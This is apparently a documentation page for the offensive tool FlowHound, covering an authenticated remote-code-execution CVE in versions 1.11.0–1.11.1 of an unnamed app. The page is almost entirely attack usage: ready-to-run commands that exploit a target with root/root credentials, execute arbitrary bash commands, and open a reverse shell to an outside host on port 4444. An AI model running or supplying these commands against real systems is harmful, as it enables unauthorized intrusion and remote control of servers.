

repository: rmhowe425/FlowHound · page: cves/cve_2026_19286/index.html · generator: mkdocs

# CVE Description
**CVE Description:** Authenticated remote code execution vulnerability that allows an attacker to execute arbitrary code due to improper enforcement of security restrictions on the A2A public endpoint.

**Impacted Versions:** 1.11.0 through 1.11.1

# Exploit Module

## Default Mode
```bash
flowhound attack --url http://9.60.135.215:7860 --username root --password root --cve CVE-2026-19286
```

![image](../images/cve/f9b96045-49ec-4725-a15a-29caa707ab82.png)



## Execute Bash Command
```bash
flowhound attack --url http://9.60.135.215:7860 --username root --password root --cve CVE-2026-19286 --command "date '+%H:%M:%S'"
```

![image](../images/cve/50d3404c-d705-4bf2-8d11-ed139acbe64a.png)


## Reverse TCP Persistent Connection
```bash
flowhound attack --url http://9.60.135.215:7860 --username root --password root --cve CVE-2026-19286 --reverse_shell 9.61.10.227:4444
```

### FlowHound CLI Output
![image](../images/cve/44157993-e556-4013-b05f-8a4d090b723d.png)
